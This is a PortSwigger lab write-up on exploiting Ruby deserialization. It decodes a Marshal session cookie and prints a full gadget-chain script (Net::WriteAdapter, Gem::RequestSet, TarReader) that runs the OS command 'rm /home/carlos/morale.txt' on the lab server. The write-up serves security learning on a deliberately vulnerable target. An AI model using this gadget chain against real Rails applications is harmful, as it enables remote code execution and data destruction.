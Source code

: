 # Exploiting Ruby deserialization using a documented gadget chain

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain), you'll learn: Exploiting Ruby deserialization using a documented gadget chain! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112141522.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112141533.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112141548.png)

**When we successfully logged in, it'll set a new session cookie:**
```
BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVzNTh0b2t0NHZ1NDVmNWRqcHdheDFxajVqMXF4YXpwMAY7B0YK
```

**It seems like it's encoded in base64. Let's decode that:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 14:18:33
╰─○ echo 'BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVzNTh0b2t0NHZ1NDVmNWRqcHdheDFxajVqMXF4YXpwMAY7B0YK' | base64 -d | xxd
00000000: 0408 6f3a 0955 7365 7207 3a0e 4075 7365  ..o:.User.:.@use
00000010: 726e 616d 6549 220b 7769 656e 6572 063a  rnameI".wiener.:
00000020: 0645 463a 1240 6163 6365 7373 5f74 6f6b  .EF:.@access_tok
00000030: 656e 4922 2573 3538 746f 6b74 3476 7534  enI"%s58tokt4vu4
00000040: 3566 3564 6a70 7761 7831 716a 356a 3171  5f5djpwax1qj5j1q
00000050: 7861 7a70 3006 3b07 460a                 xazp0.;.F.
```

As you can see, the decoded output is a **ruby serialized object**.

**It contains object `User`, attribute 1 `username`, and attribute 2 `access_token`.**

**Let's google "ruby deserialization gadget chain":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112144048.png)

**In this [blog](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html), it explained how to construct Ruby deserialization gadget chains very well, I strongly recommend you read through all of it.**

**Also, it has a Ruby script that generates a Ruby serialized object gadget chain payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112144142.png)

**In here, we need to change the `id` OS command to `rm /home/carlos/morale.txt`, and base64 encode the output:**
```ruby
require 'base64'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

**Run that payload in [Ruby online compiler](https://www.tutorialspoint.com/execute_ruby_online.php):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112152930.png)

**Copy the output and paste it to the session cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112152947.png)

**Finally, refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-7/images/Pasted%20image%2020230112152959.png)

Nice!

# What we've learned:

1. Exploiting Ruby deserialization using a documented gadget chain